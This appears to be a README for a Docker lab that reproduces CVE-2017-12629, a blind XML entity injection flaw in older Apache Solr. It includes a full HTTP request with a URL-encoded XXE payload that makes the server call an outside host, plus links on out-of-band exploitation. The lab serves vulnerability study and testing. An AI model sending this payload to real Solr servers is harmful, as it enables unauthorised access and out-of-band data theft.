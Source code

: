 # Apache solr XML Entity Injection Vulnerability (CVE-2017-12629)

The principle and analysis of the vulnerability can be referred to:

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr is an open source search server. Solr is developed in the Java language and is based primarily on HTTP and Apache Lucene. The principle is roughly that documents are added to a search collection using Http using Http. Querying this collection is also done by receiving an XML/JSON response via http. In the previous version of 7.1.0, two vulnerabilities were discovered: XML Entity Extension Vulnerability (XXE) and Remote Command Execution Vulnerability (RCE), which can be connected into a utilization chain, numbered CVE-2017-12629.

This environment only tests XXE vulnerabilities, RCE and utilization chains, which can be viewed at https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE.

## Environment Building

Run the vulnerability environment:

```
Docker-compose up -d
```

After the command is successfully executed, you need to wait for a while, then visit `http://your-ip:8983/` to view the Apache solr management page without logging in.

## Vulnerability recurrence

Since the return packet does not contain the information in the XML we passed in, this is a Blind XXE vulnerability. We send the following packet (self-modifying the XXE Payload):

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A %3C!ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2Fxxe.675ba661.2m1.pw%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F %3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Accept requests from Java:

![](1.png)

However, the OOB attack of Java XXE can only read part of the content using the high version of ftp, but it has not been solved yet. The relevant information is as follows:

- http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
- https://blog.zsec.uk/blind-xxe-learning/